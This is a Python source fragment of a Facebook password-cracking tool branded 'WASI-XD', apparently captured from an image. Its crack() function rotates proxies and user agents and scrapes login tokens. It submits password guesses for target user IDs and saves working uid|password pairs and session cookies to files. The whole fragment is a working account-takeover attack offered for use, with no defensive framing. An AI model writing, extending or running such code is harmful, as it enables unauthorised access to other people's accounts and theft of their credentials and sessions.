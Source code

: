 def crack(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\r{b}WASI-XD-->{P}[{k}{loop}{P}/{h}{len(id)}{P}]â€”{P}[{H}{ok}{P}]â€”{P}[{k}{cp}{x}]â€”[{bo}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://p.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				cetak(nel('  [red]     âœ¨ WASI-CHECKPOINT âœ¨ [red]'))
				print(f'\r{K}>> {idf}|{pw}{N}')     
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1 
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				cetak(nel('[green]      â¤ï¸âœ¨ WASI-OK â¤ï¸âœ¨[green]')) 
				print(f'\r{H}>> {idf}|{pw}|{kuki}\n{ua}{N}')
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n')
				cek_apk(session,coki)
				break
				
